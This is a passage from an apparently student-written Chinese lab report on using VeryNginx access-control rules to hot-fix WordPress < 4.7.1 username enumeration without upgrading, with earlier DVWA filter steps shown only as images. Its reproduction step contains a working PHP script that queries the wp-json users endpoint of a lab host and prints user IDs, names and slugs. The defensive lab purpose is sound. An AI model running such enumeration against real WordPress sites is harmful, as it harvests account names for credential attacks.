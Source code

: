 

4.2.2 配置Response

![response](img/dvwa_response.jpg)



4.2.3 添加到Filter后测试效果：

![white](img/dvwa_white.png)





##### 4.3 在不升级 Wordpress 版本的情况下，通过定制 [VeryNginx](https://github.com/alexazhou/VeryNginx) 的访问控制策略规则，**热**修复 [WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

4.3.1 漏洞重现

```bash
sudo vim err.php
##创建err.php文件

#!usr/bin/php
<?php
header ('Content-type: text/html; charset=UTF-8');
$url= "http://wp.sec.cuc.edu.cn//";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
echo "*-----------------------------*\n";
foreach($json as $users){
echo "[*] ID : |" .$users['id'] ."|\n";
echo "[*] Name: |" .$users['name'] ."|\n";
echo "[*] User :|" .$users['slug'] ."|\n";
echo "\n";
}echo "*-----------------------------*";}
else{echo "[*] No user";}
?>
```